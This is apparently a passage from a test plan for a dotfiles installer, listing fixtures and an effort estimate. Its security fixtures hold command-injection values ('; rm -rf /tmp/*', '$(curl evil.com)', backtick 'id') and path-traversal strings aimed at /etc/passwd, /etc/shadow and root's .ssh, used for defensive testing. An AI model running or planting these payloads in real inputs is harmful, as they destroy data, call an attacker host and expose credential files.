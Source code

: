 ```yaml
```

### Test Data and Fixtures

**VERSION Files** (`test/fixtures/`):

```bash
# VERSION.valid
0.1.1

# VERSION.invalid
not-a-version

# VERSION.malicious
0.1.0; rm -rf /tmp/*

# VERSION.semver
1.2.3-alpha.1+build.456
```

**Mock Dotfiles Structure**:

```text
test/fixtures/mock-dotfiles/
├── install.sh              # Mock dotfiles installer
├── lib/
│   └── installer-helpers.sh
└── stow/
    └── shell/
        └── .bashrc
```

**Security Test Payloads**:

```bash
# test/fixtures/payloads/command-injection.txt
0.1.0; echo PWNED
1.0$(curl evil.com)
2.0`id > /tmp/pwned`

# test/fixtures/payloads/path-traversal.txt
~/.aida/../../etc/passwd
/tmp/../../../root/.ssh/
./../../../etc/shadow
```

## 4. Effort & Complexity

### Estimated Complexity: **XL**

**Breakdown**:

- **Unit tests**: M (3-5 days)
  - 10-15 test functions per utility
  - Mocking filesystem/network calls
  - Edge cases and error paths
